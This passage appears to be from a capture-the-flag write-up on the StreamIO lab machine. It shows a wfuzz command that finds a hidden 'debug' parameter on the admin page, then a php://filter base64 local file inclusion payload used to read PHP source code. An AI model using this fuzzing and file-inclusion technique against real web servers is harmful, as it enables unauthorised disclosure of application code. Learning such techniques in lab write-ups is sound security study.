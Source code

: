 ![](StreamIO_LFI0.png)

Each parameter `?user=`, `?staff=` and `?movie=` loads a different page. A good point to FUZZ this parameter to uncover any hidden page.
###### `Downloading PHP Source Code From Web Server using Base64 Encoding Filter`
```
# wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -H "Cookie: PHPSESSID=onjq5t2fptg8femj7s4g3bi8as" -u 'https://streamio.htb/admin/?FUZZ=' --hw 131
000000125:   200        146 L    349 W      4670 Ch     "user"                                                                                           
000000245:   200        398 L    916 W      12484 Ch    "staff"                                                                                          
000001068:   200        10790    25878 W    320235 Ch   "movie"                                                                                          
000005776:   200        49 L     137 W      1712 Ch     "debug"   
```

Loading the `?debug=` page shows that `this option is for developers only.` When I try to `https://streamio.htb/admin/?debug=master.php`, It just prints the list of all the movies. We can try plethora of things on `?debug=`. Since our intention is to grab the source code, We will have to find a way to grab the code. `Base64` is the answer. We can always try to get the file content by encoding it to `Base64` using PHP Filters. 

`https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php`
![](StreamIO_LFI1.png)
